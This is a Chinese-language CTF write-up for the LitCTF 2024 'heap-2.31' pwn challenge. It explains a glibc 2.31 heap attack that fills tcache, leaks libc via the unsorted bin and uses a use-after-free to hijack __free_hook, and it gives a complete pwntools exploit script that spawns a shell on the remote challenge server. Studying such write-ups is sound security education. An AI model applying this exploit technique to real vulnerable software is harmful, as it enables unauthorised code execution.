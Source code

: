 ```yaml
---
title: '[LitCTF 2024]heap-2.31'
date: 2024-11-13 13:50 +0800
categories: [ctf,pwn]
tags: [unsortbin_leaklibc,tacahe,libc2.31,free_hook]
---
```

> Problem: [[LitCTF 2024]heap-2.31](https://www.nssctf.cn/problem/5616)

## 思路

填满`tacahe`，利用`unsortbin`泄漏出`free_hook`,利用`uaf`修改`tacahe`的`fd`实现任意内存地址读写，劫持`free_hook`

## EXP

```python
from pwn import *
context.log_level = 'debug'
context.terminal = ['tmux','splitw','-h']
elf = ELF('./heap')
lib = ELF('/lib/x86_64-linux-gnu/libc.so.6')
#io = gdb.debug('./heap')
io = remote('node4.anna.nssctf.cn',28242)
def create(idx,size):
    io.sendlineafter(b'>>',str(1))
    io.sendlineafter(b'idx?',str(idx))
    io.sendlineafter(b'size?',str(size))

def delete(idx):
    io.sendlineafter(b'>>',str(2))
    io.sendlineafter(b'idx?',str(idx))

def show(idx):
    io.sendlineafter(b'>>',str(3))
    io.sendlineafter(b'idx?',str(idx))

def edit(idx,content):
    io.sendlineafter(b'>>',str(4))
    io.sendlineafter(b'idx?',str(idx))
    io.sendlineafter(b'content : \n',content)

for i in range(9):
    create(i,0x88)
for i in range(8):
    delete(i)

show(7)
free_hook = u64(io.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))+0x2268
log.info(hex(free_hook))
lib_base = free_hook-lib.sym['__free_hook']
sys_addr = lib_base+lib.sym['system']

edit(5,p64(free_hook))
[create(i,0x88)for i in range(10,13)]
edit(12,p64(sys_addr))

edit(8,b'/bin/sh\x00')
delete(8)
io.interactive()
```

## 总结

要注意`tacahe`利用`uaf`修改为`free_hook`地址时，不能使用最末尾（第七个）的块，那样会导致无法申请，出现脱链的状况。
